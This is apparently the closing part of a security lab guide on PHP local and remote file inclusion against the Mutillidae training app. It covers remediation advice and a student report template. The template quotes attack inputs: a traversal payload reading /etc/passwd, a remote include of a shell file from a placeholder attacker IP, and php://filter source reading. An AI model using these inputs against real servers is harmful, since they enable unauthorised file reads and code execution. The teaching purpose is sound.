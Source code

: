 - **Never directly include user-supplied paths:** use a strict allow-list (map short names to server-side file paths) and never construct include paths from raw user input.
- **Canonicalize & validate inputs:** resolve paths server-side, remove `../` sequences, and validate against allowed filenames only.
- **Disable remote includes:** set `allow_url_include = Off` in PHP and ensure `allow_url_fopen` is used carefully.
- **Harden file uploads:** validate file types, store uploads outside webroot, set safe permissions, and do not allow execution of uploaded files.
- **Use least privilege for webserver account:** webserver should not have access to sensitive system files.
- **Disable or restrict dangerous wrappers:** avoid exposing `php://filter` usage and restrict functions like `include`, `require` to safe contexts.
- **Log and monitor file access:** detect unusual inclusion patterns and alert on unexpected reads of sensitive files.

---

## 12) Minimal lab report template (copy-paste into `finding_summary.md`)

```
# Finding Summary — EXPT-09 File Inclusion (LFI / RFI)
**Student:** <Your Name>
**Date:** <dd-mm-yyyy>
**Target:** http://localhost/mutillidae/
**Tools:** Kali Linux, Burp Suite, curl, (local PHP server for RFI PoC if used)

## 1) Steps performed
1. Identified candidate include parameter: `?page=` on `/index.php`.
2. Tested LFI via directory traversal (`?page=../../../../etc/passwd`) and captured response (evidence/02_lfi_passwd.png).
3. (Lab-only) Attempted RFI by hosting a benign `attacker_shell.php` and including via `?page=http://<attacker-ip>:8000/attacker_shell.php` — result saved as evidence/03_rfi_request.txt or evidence/05_rfi_failed.txt if blocked.
4. (Optional) Tested PHP wrapper `php://filter` to read source files (evidence/06_php_wrapper.txt).

## 2) Key findings
- [High] LFI confirmed on parameter `page` — reading local files possible (evidence/02_lfi_passwd.png).
- [Info] RFI attempt was blocked by server config (allow_url_include disabled) — evidence/05_rfi_failed.txt (if applicable).

## 3) Remediations
- Implement allow-lists for include parameters; do not use user input directly in include/require.
- Disable remote include (`allow_url_include = Off`) and restrict wrappers.
- Store uploaded files outside the webroot and set safe permissions; regenerate filenames server-side.
- Apply least privilege to webserver account and monitor inclusion patterns.

## 4) Commands run
- curl -I http://localhost/mutillidae/
- (Saved items via Burp)

## 5) Conclusion
Demonstrated an LFI vulnerability in the lab target allowing local file reads. RFI was attempted in a controlled lab setting and blocked (if applicable). Recommended immediate remediation: allow-list mapping of includes, disabling remote includes, and hardening upload handling. Evidence in `evidence/` folder.
```

---